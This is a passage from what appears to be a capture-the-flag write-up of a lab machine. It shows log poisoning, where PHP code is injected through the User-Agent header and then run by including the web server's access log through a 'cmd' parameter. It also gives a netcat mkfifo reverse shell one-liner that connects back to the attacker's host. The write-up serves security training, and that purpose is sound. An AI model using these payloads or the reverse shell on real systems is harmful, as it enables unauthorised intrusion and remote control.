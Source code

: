 > **Attacker Machine**:

```bash
python3
  import requests
  headers = {'User-Agent': 'oldb0y was here'}
  r = requests.get('http://10.10.10.84', headers=headers)
  headers = {'User-Agent': '<?php system("id"); ?>'}
  r = requests.get('http://10.10.10.84', headers=headers)
  headers = {'User-Agent': '<?php shell_exec("whoami"); ?>'}
  r = requests.get('http://10.10.10.84', headers=headers)
# Beware of poisoning, I just broke the log service (especial characters) :(

  headers = {'User-Agent': "<?php system('id'); ?>"}
  r = requests.get('http://10.10.10.84', headers=headers)
  headers = {'User-Agent': "<?php system('whoami'); ?>"}
  r = requests.get('http://10.10.10.84', headers=headers)
```

<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To avoid doing the injections from the console with `python`, I can inject a command so that through the **URL** and the use of a parameter (**cmd**), I can execute the commands more quickly. I check that the connectivity to my machine is correct and I try to send me a **Reverse Shell**, using a **[PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** command but in my first attempt I don't succeed. I'm going to **URL-encode** the command with `php`, because I think the problem is in the use of **special characters**, now I succeed to access the machine again. I remember the compressed file that I could not unzip on the victim machine, so I better transfer it to my machine to analyze it, with `7z` I can see list the file but I can't unzip it because it is password protected.

> **Attacker Machine**:

```bash
python3
  headers = {'User-Agent': "<?php system($_REQUEST['cmd']); ?>"}
  r = requests.get('http://10.10.10.84', headers=headers)

# view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=whoami
# view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=id
# view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=ls -l
# ?

tcpdump -i tun0 icmp -n
#view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=ping%2010.10.14.14

nc -nlvp 443
# view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f
# :(

php --interactive
  $r_shell = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f";
```